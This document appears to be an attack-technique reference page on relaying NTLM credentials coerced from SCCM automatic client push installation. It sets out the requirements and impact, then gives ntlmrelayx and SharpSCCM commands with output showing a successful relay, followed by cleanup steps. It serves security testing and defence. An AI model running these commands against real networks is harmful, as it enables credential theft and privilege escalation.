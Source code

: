 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- Lateral Movement
- Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < 5 or not present, or = `5` and LmCompatibilityLevel >= 3 on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as Domain Admins for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its machine account. If SMB is used, TAKEOVER-1 and TAKEOVER-2 may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server.

## Defensive IDs


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

```
# impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
[2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
[2024-02-26 15:49:50] [*] Running in relay mode to single host
[2024-02-26 15:49:50] [*] Setting up SMB Server
[2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
[2024-02-26 15:49:50] [*] Setting up WCF Server
[2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

[2024-02-26 15:49:50] [*] Servers started, waiting for connections
```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

```
SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

[+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
[+] Reusable Base64-encoded certificate:

    308209D2...020207D0

[+] Discovering local properties for client registration request
[+] Modifying client registration request properties:
      FQDN: <NTLMRELAYX_LISTENER_IP>
      NetBIOS name: <NTLMRELAYX_LISTENER_IP>
      Site code: <SITECODE>
[+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
[+] Received unique SMS client GUID for new device:

    GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

[+] Discovering local properties for DDR inventory report
[+] Modifying DDR and inventory report properties
[+] Discovered PlatformID: Microsoft Windows NT Server 10.0
[+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
[+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
[+] Completed execution in 00:00:16.1952455
```

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
```
[2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
[2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
```

Note: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having Full Administrator privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With Full Administrator access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the administration console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Chris Thompson, SharpSCCM, https://github.com/Mayyhem/SharpSCCM